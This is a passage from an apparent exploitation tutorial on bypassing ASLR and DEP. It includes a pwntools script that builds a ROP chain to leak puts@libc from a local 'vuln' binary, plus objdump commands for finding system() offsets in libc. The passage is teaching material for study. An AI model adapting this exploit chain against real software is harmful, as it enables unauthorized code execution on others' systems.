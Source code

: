 I got something like this:

`0000000000400430 <puts@plt>:`



Finally, we can construct the first payload. I'll write this as a **pwntools** python script so I'll be able to expand it and include the second payload.
The new flow of the program must be the following:

RET to pop_rdi_ret_address -> (RDI = puts@GOT) RET to puts_plt_address -> RET to main  

```python
from pwn import *

r = process('vuln')

main_address = 0x00400566
puts_got_address = 0x0000000000601018
puts_plt_address = 0x0000000000400430
pop_rdi_ret_address = 0x00000000004005f3

payload = 'A'*56 + p64(pop_rdi_ret_address) + p64(puts_got_address) + p64(puts_plt_address) + p64(main_address)

r.sendline(payload)
print r.recvline() # "hi there"

leaked_output = r.recvline()
leaked_output = leaked_output[:-1]

print('leaked puts() address', leaked_output)
r.sendline('a')
print r.recvline() # "hi there"

```


And when running it...

{% include image.html url="/imgs/posts/bypassing-aslr-dep-getting-shells-with-pwntools/bypass_aslr_dep_payload_leak_puts.webp" description="Leaking the address of puts@libc" %}



## Step 3: Finding the Address of system@libc

In this part, we compute the **offset** between `puts@libc` and `system@libc` while also finding the address of a **"sh"** string.
We know, from the previous **ldd** run, that the binary uses the libc located at: **/lib/x86_64-linux-gnu/libc.so.6**.

Running the following commands will return the **offsets** of `system()` and `puts()` from libc:

```bash
objdump -d -M intel /lib/x86_64-linux-gnu/libc.so.6 | grep "system"
objdump -d -M intel /lib/x86_64-linux-gnu/libc.so.6 | grep "_IO_puts"
```
